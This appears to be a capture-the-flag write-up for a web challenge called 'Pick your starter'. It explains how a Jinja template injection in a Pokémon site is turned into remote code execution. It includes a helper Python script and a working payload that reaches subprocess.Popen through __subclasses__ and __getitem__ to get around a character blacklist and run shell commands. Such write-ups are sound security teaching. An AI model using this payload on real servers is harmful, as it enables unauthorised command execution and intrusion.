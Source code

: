 ```yaml
---
layout: post
date: 2023-09-12 12:00:00 +0200
title: "Pick your starter"
---
```


In this challenge, we exploit a jinja template injection to get RCE.

<!--more-->

We have a website which displays pokemon

![Alt text](/assets/pctf/pick-your-starter-0.png)

The server header reports `Werkzeug` so we tried the `/console` endpoint. (checkout `debug=True` shell that `Werkzeug` offers and was behind the [2015 Patreon Hack](https://labs.detectify.com/2015/10/02/how-patreon-got-hacked-publicly-exposed-werkzeug-debugger/))

![](/assets/pctf/pick-your-starter-1.png)

## Vulnerability

After some experimentation we discover that there is a **template injection attack**, let's see the result for `/{{7*6}}`

![Alt text](https://raw.githubusercontent.com/BasiliCS/writeups/pctf/pctf/web/pick-your-starter-2.png)

We also notice that many characters are blacklisted including `-+'"[]`.

Although this webpage is entertaining, for the rest of this challenge we will be using a python script with `BeautifulSoup` to extract the interesting text:

```py
import requests
from bs4 import BeautifulSoup
page = requests.get("http://chal.pctf.competitivecyber.club:5555/{{7*6}}")

soup = BeautifulSoup(page.content, "html.parser")

prefix_len = len("<h1>\"b'")
suffix_len = len("'\" isn't a starter Pokémon.</h1>")

extracted = str(soup.find_all("h1")[0])[prefix_len:-suffix_len]

print(extracted)
```

## Exploit

We would like to get RCE on the server. Given the black list, we are able to access a global object through `()` climbing to the base class `object` we are able to list all available classes with the `__subclasses__` method.

The URL looks like this:
`http://chal.pctf.competitivecyber.club:5555/{{().__class__.__base__.__subclasses__()}}`

The response looks like this (the final list is a lot longer):

```
"lt;class 'type'&gt;, &lt;class 'async_generator'&gt;, &lt;class 'bytearray_iterator'&gt;, &lt;class 'bytearray'&gt;, &lt;class 'bytes_iterator'&gt;, &lt;class 'bytes'&gt;, &lt;class 'builtin_function_or_method'&gt;, &lt;class 'callable_iterator'&gt;, &lt;
```

We are interested in the 455th element: `subprocess.Popen` as it will give us a shell.

We cannot use `[]` characters so we have to use the `__getitem__` method.

Finally, we want to pass our string command to the constructor, this can be easily done using `request.args.shell` and passing an argument `?shell=cat /flag.txt`.

The final URL:
`"http://chal.pctf.competitivecyber.club:5555/{{().__class__.__base__.__subclasses__().__getitem__(455)(request.args.shell,shell=True,stdout=(1).__neg__()).communicate()}}?shell=cat ../flag.txt"`

## The flag

`PCTF(wHOS7H47PoKEmoN)`
